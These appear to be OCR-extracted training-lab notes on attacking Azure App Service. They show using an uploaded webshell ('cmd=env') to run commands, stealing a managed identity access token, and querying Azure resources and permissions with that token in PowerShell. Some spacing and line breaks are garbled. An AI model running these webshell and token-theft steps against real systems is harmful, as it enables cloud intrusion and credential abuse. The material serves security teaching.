 -  In the above case, it is also possible to run a PowerShell script and command shell. But the privileges will be of a the low-privileges workers process that uses a random application pool identity.

-  While there are default security features available with App Service (sandboxing/isolation, encrypted communication etc.), vulnerabilities in the code deployed are abusable.

-  The classic web app vulnerabilities like SQL Injection, Insecure file upload, Injection attacks etc. do not disappear magically :)

- We will discuss the following:
  - Insecure File upload
  - Server Side Template Injection
  - OS Command Injection

-  By abusing an insecure file upload vulnerability in an app service, it is possible to get command execution.

-  As discussed previously, the privileges will be of the low-privilege
worker process.

-  But if the app service uses a Managed Identity, we may have the ability
to have interesting permissions on other Azure resources.

-  After compromising an app service, we can request access tokens for the managed identity.

-  If the app service contains environment variables IDENTITY_HEADER and IDENTITY_ENDPOINT, it has a **managed identity**.

```
http://defcorphqcareer.azurewebsites.net/uploads/studentxshell.phtml?cmd=env
```
-  Get the access token for the managed identity using another webshell https://defcorphqcareer.azurewebsites.net/uploads/studen txtoken.phtml
-  You can find both of the above web shells in the Tools directory.

-     Check the resources available to the managed identity (using the access token and client ID)
```
$token = 'eyJ0eX...'

Connect-AzAccount -AccessToken $token -AccountId <clientID> Get-AzResource
```
-     Check the permissions of the managed identity on the virtual machine from above:

```
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11- d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/provide rs/Microsoft.Authorization/permissions?api-version=2015-07-01'


$RequestParams = @{ Method = 'GET' Uri     = $URI Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```

Note: There should be no need to use the above code. Get-AZRoleAssignment gives the correct result in case a user's token is used. But throws an error in case token of a manage identity is used.
